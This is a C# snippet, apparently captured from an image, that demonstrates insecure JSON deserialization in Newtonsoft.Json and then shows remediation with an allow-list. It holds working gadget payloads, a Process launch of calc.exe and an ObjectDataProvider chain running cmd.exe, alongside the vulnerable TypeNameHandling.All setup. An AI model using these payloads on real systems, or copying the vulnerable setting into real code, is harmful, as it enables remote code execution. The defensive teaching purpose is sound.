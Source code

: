 ```csharp

// Malicious JSON Payload:
string maliciousJson = @"{
    ""$type"": ""System.Diagnostics.Process, System"",
    ""StartInfo"": {
        ""FileName"": ""calc.exe"",
        ""Arguments"": """"
    }
}";

// Exploitation:
// When this JSON is deserialized with TypeNameHandling.All:
var settings = new JsonSerializerSettings()
{
    TypeNameHandling = TypeNameHandling.All
};
var result = JsonConvert.DeserializeObject(maliciousJson, settings);
// This could execute calc.exe on Windows

// Advanced Payload for .NET Gadget Chain:
string advancedPayload = @"{
    ""$type"": ""System.Windows.Data.ObjectDataProvider, PresentationFramework"",
    ""MethodName"": ""Start"",
    ""ObjectInstance"": {
        ""$type"": ""System.Diagnostics.Process, System""
    },
    ""MethodParameters"": {
        ""$type"": ""System.Collections.ArrayList"",
        ""$values"": [
            ""cmd.exe"",
            ""/c echo pwned > c:\temp\pwned.txt""
        ]
    }
}";

// REMEDIATION:
// 1. Never use TypeNameHandling.All with untrusted input
// 2. Use allow-lists for deserialization
// 3. Implement custom JsonConverter with type validation
// 4. Use System.Text.Json instead of Newtonsoft.Json for better security

// Safe Deserialization:
public class SafeDeserializer
{
    private static readonly string[] AllowedTypes = { "MyApp.Models.User", "MyApp.Models.Product" };

    public T SafeDeserialize<T>(string json) where T : class
    {
        var settings = new JsonSerializerSettings()
        {
            TypeNameHandling = TypeNameHandling.None,  // Disable type name handling
            SerializationBinder = new SafeSerializationBinder(AllowedTypes)
        };
        return JsonConvert.DeserializeObject<T>(json, settings);
    }
}

```
